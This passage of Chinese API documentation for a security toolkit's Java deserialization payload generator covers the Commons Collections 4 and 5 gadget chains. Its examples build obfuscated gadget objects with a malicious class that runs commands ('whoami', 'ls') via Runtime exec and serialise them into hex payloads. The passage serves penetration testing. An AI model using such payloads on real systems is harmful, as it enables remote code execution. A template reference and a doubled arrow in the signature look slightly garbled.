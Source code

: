 ### 基础用法

生成一个Java对象，并指定恶意类的名称为'KEsBXTRS'，使用Runtime Exec方法执行命令

```yaklang
command = 'whoami'
className = 'KEsBXTRS'
gadgetObj,err = yso.GetCommonsCollections4JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```

## 27. `yso.GetCommonsCollections5JavaObject`

## 功能描述

基于Commons Collections 2 序列化模板生成并返回一个Java对象。

## 参数说明

```
func GetCommonsCollections5JavaObject(cmd: string) => => (*JavaObject, error)
```

**请求参数**

- `cmd` : 要设置在Java对象中的命令字符串。

**返回类型**

- `r1` : 成功时返回生成的Java对象。
- `r2` : 成功时返回nil错误，失败时返回相应错误。

## 示例代码

### 基础用法

假设的命令字符串为'ls'，生成Java对象并转换为十六进制payload。

```yaklang
command := 'ls'
javaObject, _ := yso.GetCommonsCollections5JavaObject(command)
gadgetBytes, _ := yso.ToBytes(javaObject)
hexPayload := codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```

## 28. `yso.GetCommonsCollections6JavaObject`
